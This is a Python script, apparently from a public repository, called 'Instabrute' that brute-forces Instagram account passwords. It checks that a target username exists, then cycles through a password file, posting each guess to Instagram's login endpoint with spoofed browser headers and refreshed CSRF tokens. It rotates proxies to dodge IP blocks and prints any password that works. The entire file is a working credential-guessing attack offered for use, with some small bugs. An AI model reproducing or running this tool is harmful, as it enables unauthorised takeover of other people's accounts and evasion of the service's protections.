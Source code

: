 # GGs
'''
TODO LIST:
	Fix and make proxy function better
	Sort code again
	Add help function to all "Yes/no" questions
	Add help  function to "Press enter to exit input"
'''
import requests
import json
import time
import os
import random
import sys

#Help function
def Input(text):
	value = ''
	if sys.version_info.major > 2:
		value = input(text)
	else:
		value = raw_input(text)
	return str(value)

#The main class
class Instabrute():
	def __init__(self, username, passwordsFile='pass.txt'):
		self.username = username
		self.CurrentProxy = ''
		self.UsedProxys = []
		self.passwordsFile = passwordsFile
		
		#Check if passwords file exists
		self.loadPasswords()
		#Check if username exists
		self.IsUserExists()


		UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
		if (UsePorxy == 'Y' or UsePorxy == 'YES'):
			self.randomProxy()


	#Check if password file exists and check if he contain passwords
	def loadPasswords(self):
		if os.path.isfile(self.passwordsFile):
			with open(self.passwordsFile) as f:
				self.passwords = f.read().splitlines()
				passwordsNumber = len(self.passwords)
				if (passwordsNumber > 0):
					print ('[*] %s Passwords loads successfully' % passwordsNumber)
				else:
					print('Password file are empty, Please add passwords to it.')
					Input('[*] Press enter to exit')
					exit()
		else:
			print ('Please create passwords file named "%s"' % self.passwordsFile)
			Input('[*] Press enter to exit')
			exit()

	#Choose random proxy from proxys file
	def randomProxy(self):
		plist = open('proxy.txt').read().splitlines()
		proxy = random.choice(plist)

		if not proxy in self.UsedProxys:
			self.CurrentProxy = proxy
			self.UsedProxys.append(proxy)
		try:
			print('')
			print('[*] Check new ip...')
			print ('[*] Your public ip: %s' % requests.get('http://myexternalip.com/raw', proxies={ "http": proxy, "https": proxy },timeout=10.0).text)
		except Exception as e:
			print  ('[*] Can\'t reach proxy "%s"' % proxy)
		print('')


	#Check if username exists in instagram server
	def IsUserExists(self):
		r = requests.get('https://www.instagram.com/%s/?__a=1' % self.username) 
		if (r.status_code == 404):
			print ('[*] User named "%s" not found' % username)
			Input('[*] Press enter to exit')
			exit()
		elif (r.status_code == 200):
			return True

	#Try to login with password
	def Login(self, password):
		sess = requests.Session()

		if len(self.CurrentProxy) > 0:
			sess.proxies = { "http": self.CurrentProxy, "https": self.CurrentProxy }

		#build requests headers
		sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
		sess.headers.update({
			'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
			'x-instagram-ajax':'1',
			'X-Requested-With': 'XMLHttpRequest',
			'origin': 'https://www.instagram.com',
			'ContentType' : 'application/x-www-form-urlencoded',
			'Connection': 'keep-alive',
			'Accept': '*/*',
			'Referer': 'https://www.instagram.com',
			'authority': 'www.instagram.com',
			'Host' : 'www.instagram.com',
			'Accept-Language' : 'en-US;q=0.6,en;q=0.4',
			'Accept-Encoding' : 'gzip, deflate'
		})

		#Update token after enter to the site
		r = sess.get('https://www.instagram.com/') 
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

		#Update token after login to the site 
		r = sess.post('https://www.instagram.com/accounts/login/ajax/', data={'username':self.username, 'password':password}, allow_redirects=True)
		sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})
		
		#parse response
		data = json.loads(r.text)
		if (data['status'] == 'fail'):
			print (data['message'])

			UsePorxy = Input('[*] Do you want to use proxy (y/n): ').upper()
			if (UsePorxy == 'Y' or UsePorxy == 'YES'):
				print ('[$] Try to use proxy after fail.')
				randomProxy() #Check that, may contain bugs
			return False

		#return session if password is correct 
		if (data['authenticated'] == True):
			return sess 
		else:
			return False






instabrute = Instabrute(Input('Please enter a username: '))

try:
	delayLoop = int(Input('[*] Please add delay between the bruteforce action (in seconds): ')) 
except Exception as e:
	print ('[*] Error, software use the defult value "4"')
	delayLoop = 4
print ('')



for password in instabrute.passwords:
	sess = instabrute.Login(password)
	if sess:
		print ('[*] Login success %s' % [instabrute.username,password])
	else:
		print ('[*] Password incorrect [%s]' % password)

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		WantToExit = str(Input('Type y/n to exit: ')).upper()
		if (WantToExit == 'Y' or WantToExit == 'YES'):
			exit()
		else:
			continue
